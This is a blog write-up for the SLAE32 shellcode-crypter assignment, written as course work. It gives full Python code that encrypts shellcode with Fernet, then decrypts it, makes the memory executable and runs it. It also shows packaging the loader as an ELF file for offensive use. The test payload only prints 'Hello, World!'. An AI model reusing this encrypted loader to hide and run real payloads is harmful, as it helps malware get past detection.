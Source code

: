 ```yaml
---
title: SLAE32 - Assignment 7 - Crypter
date: 2021-03-13
tags:
- SLAE32
categories:
- SLAE Exam Assignments
- SLAE 32-bit
keywords:
    - Assembly
    - Encrypter
    - Fernet
---
```


The seventh assignment for the SLAE32 certification asks to create a custom crypter like the one shown in the "Crypters" video. You are free to use any existing encryption schema and any programming language.
<!--more-->
I have decided to use Python3 and - after some research - to give [Fernet](https://cryptography.io/en/latest/fernet.html) a try.

According to the documentation ("[Limitations](https://cryptography.io/en/latest/fernet.html#limitations)" section):
> Fernet is ideal for encrypting data that easily fits in memory. As a design feature it does not expose unauthenticated bytes. This means that the complete message contents must be available in memory, making Fernet generally unsuitable for very large files at this time.

As we will use Fernet to encrypt shellcodes, this limitation is not a _show-stopper_ at all.

## Encrypter
The encrypter tool: 
* takes the shellcode to be encrypted from the _shellcode_ variable
* creates a salt taking 16 random characters from digits and ascii_uppercase
* asks the user for the encryption password
* performs the encryption process
* prints on screen the different components:
  * chosen password in plaintext
  * random salt computed
  * encrypted payload, which is a string obtained by concatenating:
    * the random salt
    * the shellcode encrypted with Fernet

The _encrypted payload_ must be copied into the Decrypt-Exec utility.

``` python
import string
import random

import base64
from cryptography.fernet import Fernet
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC


# Update here the shellcode to be encrypted
shellcode = b"<INSERT-HERE-SHELLCODE>"

salt = ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(16))

plain_pwd = input("Enter the password: ")

kdf = PBKDF2HMAC(
	algorithm = hashes.SHA256(),
	length = 32,
	salt = salt.encode(),
	iterations = 1000,
)
key = base64.urlsafe_b64encode(kdf.derive(plain_pwd.encode()))

cipher_suite = Fernet(key)
cipher_text = cipher_suite.encrypt(shellcode)

encrypted_payload = salt.encode() + cipher_text

print ("--------------------------------------------------------")
print ("Chosen password: ", plain_pwd)
print ("")
print ("--------------------------------------------------------")
print ("Random salt: ", salt)
print ("")
print ("--------------------------------------------------------")
print ("Encrypted payload: ")
print ("")
print (encrypted_payload)
print ("")
print ("--------------------------------------------------------")
```


## Decrypter
The decryption-exec tool:
* takes the encrypted string generated with previous tool from the *encrypted_payload* variable and then splits it into the two different components:
  * the salt (first 16 characters)
  * the cipher_text (other characters)
* asks the user for the password (which has to be the same used for the encryption, of course)
* builds the _key derivation function_ using the salt, with same algorithm used in the encryption
* performs the decryption, thus having the original shellcode into *shellcode_data* variable
* puts the shellcode in memory and cast it to *invoke_shellcode* function
* sets the memory pages to executable
* executes the shellcode

``` python
import string
import base64

from cryptography.fernet import Fernet
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
from ctypes import *


# Update here the shellcode to be decrypted
encrypted_payload = b"<INSERT-HERE-ENCRYPTED-SHELLCODE>"


salt = encrypted_payload[:16]
cipher_text = encrypted_payload[16:]

plain_pwd = input("Enter the password: ")

kdf = PBKDF2HMAC(
	algorithm = hashes.SHA256(),
	length = 32,
	salt = salt,
	iterations = 1000,
)
key = base64.urlsafe_b64encode(kdf.derive(plain_pwd.encode()))

cipher_suite = Fernet(key)
shellcode_data = cipher_suite.decrypt(cipher_text)


shellcode=create_string_buffer(shellcode_data)
invoke_shellcode = cast(shellcode, CFUNCTYPE(None))

libc = CDLL('libc.so.6')
pagesize = libc.getpagesize()
address = cast(invoke_shellcode, c_void_p).value
address_page = (address // pagesize) * pagesize

for page_start in range(address_page, address+len(shellcode_data), pagesize):
	assert libc.mprotect(page_start, pagesize, 0x7) == 0
invoke_shellcode()
```

## Proof of Concept
All Proof of Concept files are stored in the "PoC" subdirectory under "Assignment-7".  

I have created `hello.nasm` to test the encrypt-decrypt-execute process. Its purpose is to print on screen the string "Hello, World!" (pointer to memory address is gathered via JMP-CALL-POP technique) and then perform a `exit(12)`.
```
global _start

section .text

_start:
	jmp short set_to_stack

execute:
	pop ecx
	
	xor eax, eax
	mov ebx, eax
	mov edx, eax

	mov al, 0x4
	mov bl, 0x1
	mov dl, 0xd

	int 0x80

	mov al, 0x1
	mov bl, 0xc
	int 0x80

set_to_stack:
	call execute
	db "Hello, World!"
```

The shellcode has been compiled using `compile.sh`, the following screenshot shows a sample run of the compiled file:
![Running the raw payload](/writeups/img/slae7-01.png)

Shellcode has been extracted with `getShellcode.sh` and the inserted in the _shellcode_ variable in `Encrypt-Hello.py`.  
Running it, the details of encrypted payload are printed on the screen:
![Running the encrypter](/writeups/img/slae7-02.png)

The encrypted payload is then put into *encrypted_payload* variable in `Decrypt-Exec-Hello.py` and it is then executed. User is asked for the password and, if correct, the decrypted shellcode is executed:
![Running the Decrypt-Exec tool](/writeups/img/slae7-03.png)

As an additional step, I wondered if the Decrypt-Exec Python tool can be converted into an ELF file and eventually moved to the _target_ machine during offensive operations. Google came in help, pointing me to the [PyInstaller](https://www.pyinstaller.org/) bundler utility.  
Using the --onefile argument, I have been able to create a single ELF file from my Python tool:
```
/home/kali/.local/bin/pyinstaller --onefile ./Decrypt-Exec-Hello.py
```
Here is the result of the execution:
![Encoding example](/writeups/img/slae7-04.png)


## Possible evolutions
Future evolution of the utility is to remove the salt from the beginning of the encrypted string, not to leave any kind of hint on the decryption keys in the decryption tool and thus making any bruteforce attempt way more time-consuming.
The salt will be then asked to the user launching the decryption tool, along with the password.


<!-- SLAE32 Disclaimer -->
_________________
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/).

**Student ID**: `SLAE - 1547`  
**GitHub repository**: [https://github.com/andrea-perfetti/SLAE32-Exam](https://github.com/andrea-perfetti/SLAE32-Exam)

This assignment has been written on a Kali Linux 2021.1 x86 virtual machine:
```
┌──(kali㉿kali)-[~]
└─$ uname -a 
Linux kali 5.10.0-kali3-686-pae #1 SMP Debian 5.10.13-1kali1 (2021-02-08) i686 GNU/Linux
```
